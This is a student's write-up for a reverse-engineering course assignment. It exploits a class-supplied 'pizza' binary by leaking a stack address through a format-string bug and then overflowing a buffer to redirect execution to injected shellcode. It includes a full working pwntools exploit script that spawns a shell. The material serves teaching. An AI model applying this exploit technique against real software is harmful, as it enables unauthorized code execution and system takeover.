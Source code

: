 # Control Flow Integrity Violation

The goal of this assignment is to write a python script using `pwntools` that executes the given program, leaks the stack offset, and spawns a shell. Through this exercise, we delve into the realm of control flow integrity violations, where unexpected inputs manipulate the program's execution flow, potentially leading to unauthorized access or unintended behavior.

In a previous class, we went into the concept of library injection, a method involving a loader program to run another program to load a library in a new thread. Dr. Reynolds highlighted a more direct approach to inject shellcode into vulnerable processes. This technique is based in providing unexpected input to a program, and thus altering the content of the instruction pointer register. By gaining control of the IP register, attackers gain the ability to manipulate the program's behavior at will. Although numerous methods exist to achieve this, we focused only on one: buffer overflow.

Dr. Reynolds explained that when a programmer permits writing more data into a buffer than its capacity, it leads to overwriting data higher up on the stack. This behavior typically results in undefined behavior or segmentation faults. However, attackers can exploit this vulnerability to their advantage. In a buffer overflow attack, attackers aim to overwrite the return address since it is eventually loaded into the IP register.

The approach for this assignment involves injecting shellcode directly into the buffer and ensuring that the IP register points to the beginning of this shellcode. Then later, the shellcode executes within the program, invoking functions like execve and replacing the current program with a shell accessible to the attacker.

## Requiered files and dependencies
- Install pwntools using the following commands on the terminal
  ```bash
  sudo apt-get update -y
  sudo apt-get install python3 python3-pip python3-dev git libssl-dev libffi-dev build-essential -y
  sudo python3 -m pip install --upgrade pip -y
  sudo python3 -m pip install --upgrade pwntools -y
  ```
- Download the program we are going to take over. Victim program: [(Pizza)](https://github.com/tolvumadur/Reverse-Engineering-Class/blob/main/Spring24/Samples/binaries/pizza)
  
## Findings about the victim program: pizza
This program appears to be a simple pizza calculator/delivery app. Here's how it works:

1. The program prompts the user to input their name for the order.
2. After receiving the name input, it acknowledges the user with a greeting containing their name.
3. Then, it asks the user to specify the number of pizzas they would like to order, within the range of 1 to 10.
4. Upon receiving the number of pizzas, it confirms the order and informs the user that the pizzas will be prepared.
5. Next, it calculates the total cost of the order, including the cost of the pizzas and tax.
6. It displays the total amount to the user.
7. Finally, it requests the user to input their credit card number for payment.
8. After receiving the credit card number, it confirms the payment method and completes the transaction.

After using Ghidra to inspect the program we can see that the program is using a not very secure function that allows the user to input a format string. Dr. Reynolds mentioned that a format string such as `%p` can leak values from the stack.


## Process for building the script
We were asked by the professor to see if we were able to crash the program by running it and inputting data. So what we did was input a large number of random characters into the name field. As we gradually increased the input length, we observed the program's behavior. Upon reaching a certain threshold, the program crashed and displayed a segmentation fault error. This crash occurred because our input overflowed the buffer, thereby overwriting critical memory areas, including the return address. Consequently, the program became unable to execute further instructions, resulting in the segmentation fault error.

To achieve a succesful buffer overflow attack we need to meet three conditions:
1. We need to find out how many bytes after the beginning of the buffer are there before the return address.
2. We need to inject padding bytes plus a new return address, plus some shellcode.
3. We need to be able to predict at what address our shellcode will be so we can return to it.

To get started I ran the program using my python script with pwntools. In line 24 we are telling the program to run the pizza program. Then in lines 26 and 28 we are setting up some parameters about our proccesor and computer. Pwntools library includes a shellcode that we can use to spawn the shell, this is declared in line 35.
Then we input a format string to leak values from the stack (line 37). We run the program (line 39), recieve and print the welcome message (line 42), and then we send "our name" which in this case will be the format string to leak values (line 45).

![image](https://github.com/horaciog1/CS479-Reverse-Engineering/assets/111658514/dda49cd8-5609-47a6-abc4-42da58c5d0e3)    

    
![image](https://github.com/horaciog1/CS479-Reverse-Engineering/assets/111658514/2a0d9983-3d1b-47db-95ec-aa8df0c18061)


## Buffer Overflow script

```python3
#!/usr/bin/env python3

from pwn import *

def printStack(core):
    rsp = core.rsp
    stack_before_rsp = core.read(rsp - 22 * 8, 22 * 8)  # 22 elements before RSP
    stack_after_rsp = core.read(rsp, 22 * 8)  # 22 elements after RSP

    print("\nStack:")
    for i in range(0, len(stack_before_rsp), 8):
        address = rsp - 22 * 8 + i
        value = core.read(address, 8)
        arrow = "<---------- RSP" if address == rsp else "    "  # Point to RSP
        print(f"{hex(address)}\t{value}\t\t\t\t\t\t\t\t\t{arrow}")

    for i in range(0, len(stack_after_rsp), 8):
        address = rsp + i
        value = core.read(address, 8)
        arrow = "<---------- RSP" if address == rsp else "    "  # Point to RSP
        print(f"{hex(address)}\t{value}\t\t\t\t\t\t\t\t\t{arrow}")

# Executable and Linkable Format
elf = ELF("./pizza")

context(arch='amd64', os='linux', endian='little', word_size=64)

getname_address = elf.symbols["getname"]

#print(hex(getname_address))

#print(shellcraft.amd64.linux.sh())
#exit()

shellcode = asm(shellcraft.amd64.linux.sh())



input1 = b"%p %p %p %p %p %p %p %p %p"



victim = process("./pizza")

# Recieve Welcome Message
print(str(victim.recvline(), "latin-1"))

# Send Name
victim.sendline(input1)
# Recieve stack address leak output
leak = str(victim.recvline(), "latin-1")
print(leak)

# Send numberof pizzas and recieve output
victim.sendline(b"10")
print(str(victim.recvline(), "latin-1"))

# SHELL CODE + "A"*?? + NEW RET_ADDRESS
retAddr = int(leak.split(" ")[7], 16) - 112
input2 = shellcode + b"A"*88 + retAddr.to_bytes(8, 'little')

victim.sendline(input2)
#print(str(victim.recvline(), "latin-1"))


victim.interactive()
#core = victim.corefile

#printStack(core)

# print(disasm(core.read(core.rip, 8)))
# print( core.read( core.rsp, 100))


exit()
```
